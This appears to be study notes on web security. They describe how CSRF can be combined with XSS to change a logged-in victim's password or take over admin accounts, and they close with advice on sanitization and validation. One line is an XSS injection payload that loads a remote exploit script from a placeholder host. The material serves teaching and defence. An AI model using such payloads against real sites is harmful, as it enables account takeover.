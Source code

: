 - **CSRF** attacks may utilize **XSS** vulnerabilities to perform certain queries, and **API** calls on a web application that the victim is currently authenticated to.

- This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

- A common **CSRF** to gain higher privileged access to a web application is to craft a **JavaScript** payload that automatically changes the victim's password to the value set by the attackers.

- Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the **JavaScript CSRF** payload), the **JavaScript** code would execute automatically. It would use the victim's logged-in session to change their password.

- Once that is done, the attacker can log in to the victim's account and control it.

- **CSRF** can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admin within a given web application).

- Following this example, instead of using **JavaScript** code that would return the session cookie, we would load a remote **.js** (**JavaScript**) file, as follows:

```
"><script src=//www.example.com/exploit.js></script>
```

- The **exploit.js** file would contain the malicious **JavaScript** code that changes the user's password.

- Developing the **exploit.js** in this case requires knowledge of this web application's password changing procedure and **APIs**.

- The attacker would need to create **JavaScript** code that would replicate the desired functionality and automatically carry it out (i.e., **JavaScript** code that changes our password for this specific web application).

### Prevention

- Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without comunicating with the back end.

| **Type** | **Description** |
|----------|-----------------|
| Sanitization | Removing special characters and non-standard characters from user input before displaying it or storing it.|
| Validation | Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|

- Furthermore, it is also important to sanitize displayed output and clear may special/non-standard characters.

- In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

- Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like **HTML Injection**, **XSS**, or **CSRF**.
